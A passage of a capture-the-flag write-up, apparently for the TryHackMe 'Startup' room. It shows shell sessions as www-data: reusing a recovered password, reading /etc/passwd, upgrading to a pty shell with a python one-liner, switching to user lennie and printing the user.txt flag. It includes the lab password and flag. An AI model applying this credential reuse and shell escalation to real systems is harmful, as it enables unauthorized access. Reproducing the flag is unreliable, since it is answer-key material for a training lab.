 ```
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
```
We have a password: **c4ntg3t3n0ughsp1c3** and the attacker tried this password but on the wrong user. Let's try this password for **lennie**

Now , we cannot execute the command **su**. This command is only available from a proper terminal. To resolve this issue, we have the appropriate command
``` 
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Now we have a proper terminal and we can connect to **lennie** user
```
www-data@startup:/incidents$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/incidents$ whoami
whoami
lennie
lennie@startup:/incidents$
```

Move to lennie directory and we have the user.txt flag ^^
```
lennie@startup:/incidents$ cd /home
cd /home
lennie@startup:/home$ ls
ls
lennie
lennie@startup:/home$ cd lennie
cd lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
